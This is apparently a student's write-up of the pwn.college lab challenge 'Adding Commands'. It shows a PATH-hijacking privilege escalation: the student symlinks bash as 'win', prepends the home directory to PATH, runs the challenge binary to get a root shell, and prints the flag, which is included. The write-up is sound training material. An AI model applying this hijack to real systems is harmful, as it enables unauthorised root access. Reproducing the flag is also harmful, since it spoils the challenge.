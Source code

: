# Adding Commands

## Procedure
i started the challenge pwn.college
as per the question.  
then i typed `ln -s /usr/bin/bash ./win` and then i used  `PATH=/home/hacker/:$PATH` and then i typed `/challenge/run` and then i typed ` cat /flag` 
then i pasted my flag to the website.

## Bash
`                                                                             Connected!
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@path~adding-commands:~# cat /flag
pwn.college{wCsPJxej8ERnzinFDHpDhNno6yw.dZzNyUDL3kTN0czW}`

## References
used this yt video https://youtu.be/JcllurbTrNo?si=drf1pH9SZiR_7KT9 

